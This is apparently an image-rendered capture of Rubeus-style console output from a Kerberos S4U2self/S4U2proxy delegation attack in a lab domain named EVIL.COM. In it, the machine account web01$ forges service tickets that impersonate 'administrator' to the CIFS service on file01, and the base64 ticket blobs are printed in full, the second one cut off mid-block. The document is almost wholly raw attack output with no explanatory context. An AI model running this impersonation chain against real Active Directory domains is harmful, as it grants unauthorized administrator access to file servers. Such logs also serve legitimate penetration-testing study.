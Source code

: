 ```
[*] Action: S4U

[*] Using domain controller: dc02.evil.com (192.168.96.130)
[*] Building S4U2self request for: 'web01$@EVIL.COM'
[*] Sending S4U2self request
[+] S4U2self success!
[*] Got a TGS for 'administrator' to 'web01$@EVIL.COM'
[*] base64(ticket.kirbi):

      doIFODCCBTSgAwIBBaEDAgEWooIETjCCBEphggRGMIIEQqADAgEFoQobCEVWSUwuQ09NohMwEaADAgEB
      oQowCBsGd2ViMDEko4IEGDCCBBSgAwIBEqEDAgEEooIEBgSCBAKU4wzVN8e0cMhdnWqY29kAxG3ikAqd
      0bAhzaLaWFQpvEVDwVukbj3q01UCb07bb9WQWDQFjsiQ1cfHbGzJ92gUnLn7blcowHmnp3lbMBzOKvSu
      TJlt56RDs1lSJTW5QlRV7hSiFql3TxBh/sy45wbvA10eF7C2TZw7HvDaK/nYSzfatFKMEatrC5gjpmb8
      pKqGkceNzizx/zOgoq2dH8LkBjH6WnpuONq+HKm6RIplNFzHQaRYdYQe04YdtKBKFrYth9JBsIi7Zx/n
      lEfDJAr9FvKGQYbsJre6ZNCoiCe75iPWY84bTOy1HV9qIpUTigmZ4Kt8L0nmwJRgxhn54xO8cHa15LUm
      maC1DqtR5TeAbqTnIfxetE3CsW2BaGperPDfFY9LEiEoMEk4K7/2cR5RW2aoMVWjU953/Y2Xm90Qt881
      iDhdpUp15VcdttqbQTjLxGoja9Slr3ypmRgnohdsMzyQgN9P2mzyn7hkfzVcTyFHXskDpWselo2oH23a
      0MNCEnEjLdDEIcOQt/RpQAyT9nn5ildySo/faW7PN3Ya2B+kzWG+SpyCWED38pscEgTGBhvygbvOqkFB
      hvI96zwEOWZgk4YnFz+5nAkzNAM/4dA13+ue3H9Jf+QwdkYgtS5+Xo2i4wDib8czivaJWoUUsMK7Rh4W
      8e2PT2JHdPi0huLav2NOklkYJlvUEYLyENIDP+/MyjU0hnA0tpSI2GYqWV5dXX75t6cPpUQz/hjqUePD
      ayrOVuwIV7j+6IF1sk2+AMtP31JNI8Eud9SQ1fvsekEjDAhPEg3ZUSvzxLB62XpPZ6QA5xUaijlTMXO+
      1T4ixqEXRRaR/aY5mbAPF2oCkX5gzqbDr/6T/M+sNaOszNMjSxn8QBOxlQzozA0rbnra3V3hB/KEukv2
      ywCLUxm+TZENpJLvLbe4atOrZBsEF58RiIDyKSpOVo/pSqLWP2iokaISAWtBqtNXux+DXpmMga0E8Qy6
      zCfdch/Es3rHhmDVsV9rd54xleY90Gp2wsddz51ExVy0gES/KxRfdlT/DdlMetd1Pd25HxoW9Qc5f7Uj
      s9JhNbQIOeP7NeXg3G8ePI9pYAbqoKs5fDlRwAJESI/a1tuQPpSJpt1i5cgLV+TRLO4/gdM4Sh7diNJI
      aq6OMPeK4kg3Pgcw2pQcSfwJTEqK3aZ2CmhbDzjV5zWLNsA1Tkwi+t0OdHU3Ozs5aObBJSWMnWgvjlll
      Tl5sPsGOoqKDJiW1jWtt4GW2TRjSOi58oIBwGQGVfn0nteoPSsuUCs3Zx8dZl6Jg8lT9RY9UtYSMC2Am
      +pPzULR95dh5+qKLdB4h95oHcuoXErjV6BP/+qrJ2o6zFNMYsOwdvTLdcy6jgdUwgdKgAwIBAKKBygSB
      x32BxDCBwaCBvjCBuzCBuKArMCmgAwIBEqEiBCDQjmk76qm17Mly56ddlJQRzv/O22bFJYQFwr/wd/pr
      s6EKGwhFVklMLkNPTaIaMBigAwIBCqERMA8bDWFkbWluaXN0cmF0b3KjBwMFAEChAAClERgPMjAyMTA4
      MjcxMzE3MTNaphEYDzIwMjEwODI3MjMxNzEzWqcRGA8yMDIxMDkwMzEzMTcxM1qoChsIRVZJTC5DT02p
      EzARoAMCAQGhCjAIGwZ3ZWIwMSQ=

[*] Impersonating user 'administrator' to target SPN 'cifs/file01'
[*] Using domain controller: dc02.evil.com (192.168.96.130)
[*] Building S4U2proxy request for service: 'cifs/file01'
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/file01':

      doIFtDCCBbCgAwIBBaEDAgEWooIE1DCCBNBhggTMMIIEyKADAgEFoQobCEVWSUwuQ09NohkwF6ADAgEC
      oRAwDhsEY2lmcxsGZmlsZTAxo4IEmDCCBJSgAwIBEqEDAgEEooIEhgSCBILv/MpHHADskF5HDRRHJMpc
      peAtB2KR/bXH3x89S6e/K0shvzSXKMT3OoZ3+j5W6B2w0X6Mv+8uTe+TftT11Lim1+c7zz7vU3532A+W
      cH5Iiq4WB1vkVrV/CssxBG78O/irPli9DX3fXy95QWZO3ecN6aLB1J0dyzA2MZpifLKlIakfbBoboEC5
      09Lp9/neaK8nQwLyVoHSGWsVHKHFMTEznZduK6KzBZ0MJu6CMOzOVSvD4XOBiSPON/oNF+D7Z2RFiqvz
      pQK6I6QYjgqsBGxVqBdRXVRxXhIh4TiAAd9xiv+iz8AOLrB2rpuHNS9iN0B/ELIuDDarfMd7QDo2F75d
      bvizztIndeuaTkPVEUB/R5iVe+PwV+Sw8K2yxH61pbP3IaNShm7Enitz3VGxQ3Gp+d+pCQyS91AbDnpH
      vG3lSrDtePIpj6dCo34OTAjKuBEoxo3EqSiDaUaDlETV0M9aC0Te4rOahXMDt55apzuNnpigZ9/Cq+li
      o8QVqlH3b3eLJ91UFjIUx67WKbzMHrTCqsZhrqo2KwcdQ09/L/BBsR4+7XL2g3o3kEB3PmlgL1VgMiFi
      j2L+3Ac4EH9INIhUgggfsvQI+S6OqL3Da/OcNj3RTqrS1BRmN0+IWtGBe3VpAkvtzDRCra5nSEY+9ACP
      8IaCxtU80FWq90pqBl4CvU6ZvfpeDuUXf8oyZmS8zUUCNrGldn+xjWy5Y8EJAQVF/JArt4EpLrnXO2Y9
      rLRLHNaHcoKEoDGTCAwUgee6bvQ/ZxxrfrJdF3FDUWkAMObj1KSVlFBhi2zhlbP2jI3GQE2AzDyha7gl
      jgaiAf1NHHDP9HZHLS7J08wyGJ0IdIFChPCUzuF83Gxvxp1XVytFw6TOOogOz1FKWg4p67qQi4CLtkPO
      qX0AgoJ1f0i8OdaqLBARvbYf2RNOf9GSeXUP64YxW5CwpfLRenyckXhJj2mCoEe4/x1xLTVTe1rIOiLz
      /0juVoraghnuJ0QiQlIuOIPIMCXo7MNyc9rOMIwWdRCVFIY7SUDPaRGMJn7wQ0NV0t5Z/MEZXiGCPJDh
      k0eZFhLjSG0B/bk4I1OngbbQY4KF4cmRBEFnJqAn5XCy403fnqDAUmI/DK41aEPJNjgqsQXhaSg9lcoT
      zbMoFPNeOznbmHjGdgrtvZtPWzCNh5UgTFUjyIIc5xmfmzIeDuiOGH3JHAx+BGRywWz1fGKzjQ1l5HQz
      Jw4dqmOOhX7wQuapO9HrxbzxycAS7wu5YedGhuNBBQN4RxEjCcduonpyXwmvj0q6VB41QLggtfyAXB4m
      mda3095IE+kQHb/sH2ZFlmETQ7VrwLLH8jmdrv4637hm3twrASeAkRL4pNobIxUMG0KC1+lmmVwqMOK6
      GPsylmrIER9MrjYuAw0mmXxv7N2bry22jz4hAhgO2xhHxjGz0UmHu6Nm/wX2+Ho2VUo4fBrBpkAxkV9O
      1oO34aYNOBNjHTHkyygKywD8RyxX8hpM68MGvk7b48JkDG+Ay9a/TfGDZrcUs7TOTwWhYTxIYeiYv6OB
      yzCByKADAgEAooHABIG9fYG6MIG3oIG0MIGxMIGuoBswGaADAgERoRIEEAUpCal486XEoedzSdGmAF2h
      ChsIRVZJTC5DT02iGjAYoAMCAQqhETAPGw1hZG1pbmlzdHJhdG9yowcDBQBAoQAApREYDzIwMjEwODI3
```